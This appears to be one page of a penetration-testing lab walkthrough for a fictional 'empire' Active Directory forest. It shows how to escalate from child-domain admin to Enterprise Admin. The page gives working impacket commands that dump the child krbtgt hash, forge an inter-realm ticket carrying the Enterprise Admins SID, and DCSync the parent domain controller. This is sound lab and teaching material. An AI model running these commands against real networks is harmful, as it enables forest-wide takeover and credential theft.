

# 🏰 08 — Child domain (eu) → Enterprise Admin

> [!abstract] Summary
> **Start:** Domain Admin in `eu.empire.local` (DC `deathstar`, 10.10.0.11). Get there with the same techniques from [[02-kerberoast-to-da]] / [[04-acl-sheev-palpatine-dcsync]] / [[05-adcs-esc1-esc8]] aimed at deathstar.
> **Goal:** Enterprise Admin over the whole empire forest.
> **Why it works:** parent and child share a forest. SID filtering is **not** applied inside a forest, so a forged inter-realm TGT carrying the parent's Enterprise Admins SID (`...-519`) is honoured by the parent DC.



## Step 1 — Become DA in the child

Run §02/§04/§05 against **deathstar (10.10.0.11)** instead of coruscant.

## Step 2 — Gather the ingredients

```bash
# child krbtgt hash
impacket-secretsdump -k -just-dc-user eu/krbtgt \
  eu.empire.local/Administrator@deathstar.eu.empire.local
# child domain SID
impacket-lookupsid eu.empire.local/Administrator:'<pw>'@10.10.0.11 | grep "Domain SID"
# parent (empire.local) domain SID — needed for the -519 extra SID
impacket-lookupsid eu.empire.local/Administrator:'<pw>'@10.10.0.10 | grep "Domain SID"
```

## Step 3 — Forge the inter-realm TGT (SID history)

```bash
impacket-ticketer -nthash <eu_krbtgt_hash> \
  -domain eu.empire.local \
  -domain-sid <EU_DOMAIN_SID> \
  -extra-sid <EMPIRE_DOMAIN_SID>-519 \
  Administrator
export KRB5CCNAME=Administrator.ccache
```

> [!note] Why `-519`
> `-519` is the **Enterprise Admins** RID. The extra SID rides in the PAC; because intra-forest trust doesn't filter SIDs, the parent DC grants you EA rights.

## Step 4 — DCSync the parent

```bash
KRB5CCNAME=Administrator.ccache impacket-secretsdump -k -just-dc \
  empire.local/Administrator@coruscant.empire.local
```

> [!check] Outcome
> Enterprise Admin → full control of `empire.local` + `eu.empire.local`.
> **Next:** the other forests are separate — [[09-rebel-forest]], [[10-trade-forest]]. Lock in with [[12-persistence]].
